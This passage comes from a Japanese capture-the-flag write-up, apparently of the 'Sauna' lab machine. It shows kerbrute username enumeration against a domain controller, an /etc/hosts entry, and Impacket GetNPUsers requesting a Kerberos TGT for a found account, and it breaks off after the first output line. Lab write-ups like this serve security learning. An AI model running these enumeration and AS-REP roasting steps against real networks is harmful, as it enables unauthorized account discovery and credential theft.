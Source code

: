 ```
### kerbrute

ユーザー名候補一覧が作成できたら、Active Directoryのアカウントに対してブルートフォースができる[kerbrute](https://github.com/ropnop/kerbrute)を使います。


余談ですが、kerbruteはGo言語で書かれており、セキュリティのツールはPythonが多いイメージがあるが最近はGoも見る気がしています。

releasesから実行ファイルをダウンロードして利用します。

chmodして、先ほど作成したユーザー名候補一覧```users.txt```を引数に入れます。

```
# chmod +x kerbrute_linux_amd64
# ./kerbrute_linux_amd64 userenum --dc 10.10.10.175 -d EGOTISTICALBANK users.txt
```

実行結果をみると、```administrator```と```FSmith```がヒットしました。

```
2020/08/15 03:03:49 >  [+] VALID USERNAME:       administrator@EGOTISTICALBANK                                                          
2020/08/15 03:03:49 >  [+] VALID USERNAME:       FSmith@EGOTISTICALBANK                                                                 
2020/08/15 03:03:49 >  Done! Tested 26 usernames (2 valid) in 0.747 seconds
```

### /etc/hostsの設定

次にやることの前準備として```/etc/hosts```の設定を行います。

```/etc/hosts```でIPアドレスとそれに対応するホスト名を設定することができます。

以下のように一行に複数のホスト名を列挙して設定することもできます。

```
10.10.10.175    EGOTISTICALBANK sauna sauna.EGOTISTICALBANK
```

### GetNPUsers

[Impacket](https://github.com/SecureAuthCorp/impacket)というネットワークプロトコルを操作するためのもので、examples以下に色々な使い勝手の良いスクリプトが用意されています。

[GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py)は、Impacketのexamplesの中の一つで、Kerberos認証で使われるTGT(Ticket Granting Ticket)を取得することができます。

kaliでは既にimpacketがインストールされているのでそちらを使います。

```locate GetNPUsers```でどこにあるのか確認することができます。


```
# python3 GetNPUsers.py EGOTISTICALBANK/fsmith
```

実行結果

```
[*] Cannot authenticate fsmith, getting its TGT